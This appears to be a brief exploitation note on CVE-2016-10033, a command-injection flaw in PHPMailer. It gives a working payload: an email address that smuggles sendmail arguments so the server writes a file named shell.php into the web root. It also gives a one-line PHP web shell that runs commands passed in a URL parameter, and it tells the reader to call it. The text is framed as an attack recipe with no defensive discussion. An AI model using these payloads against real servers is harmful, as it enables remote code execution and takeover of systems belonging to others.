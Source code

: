 # CVE-2016-10033 / PHPMailer RCE

If the server relies on PHPMailer to send emails, we can get command injection in that.

### Exploitation

The exploitation of this issue is done in two steps:

- Create a file with a PHP extension in the web root of the server.
- Access the newly created file.

To create the file, you can inject some extra-arguments to the command as part of the email address:

```
"attacker@127.0.0.1\" -oQ/tmp/ -X/var/www/shell.php  root"@127.0.0.1
```

This will allow us to create the file `/var/www/shell.php`. To get code execution, we also need to inject a web shell in the email's body:

```
<?php system($_GET['c']);?>
```

Finally, you need to access your web shell to execute commands using the `c` parameter.

